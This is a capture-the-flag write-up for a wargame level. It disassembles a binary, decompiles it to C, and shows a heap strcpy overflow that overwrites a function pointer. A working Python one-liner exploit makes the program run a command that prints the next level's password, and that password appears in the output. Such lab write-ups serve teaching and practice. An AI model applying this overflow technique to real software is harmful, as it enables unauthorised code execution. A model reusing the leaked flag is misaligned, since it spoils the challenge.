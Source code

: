 # Level 6


```gdb
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini


(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.


(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
```


```c
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2)

{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```


After a brief reading/try, i assume this.


The program store the address of the m funtion in the var ppcVar1 and execute it just before the return, but in order to give the argument of that function, it use strcpy.


In GDB i have managed to edit that assignement to the n function, and it execute our cat function

```
Breakpoint 1, 0x080484ae in main ()
1: $edx = 134513768
(gdb) set $edx = 134513748
(gdb) continue
Continuing.
/bin/cat: /home/user/level7/.pass: Permission denied
[Inferior 1 (process 4117) exited normally]
(gdb) 
```

So we need to overwrite that assignement.


We can make the program overwrite the EIP at 72 char like so :

```sh
(gdb) run $(python -c "print 'A' * 72")
Starting program: /home/user/level6/level6 $(python -c "print 'A' * 72")

Program received signal SIGSEGV, Segmentation fault.
0x08048408 in __do_global_dtors_aux ()
```

Easily guessable.

Lets try overwriting the EIP with the address of the n function :


```
./level6 $(python -c "print '\x54\x84\x04\x08' * 72")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Didn't expect it to work at all, but it seems to work hey !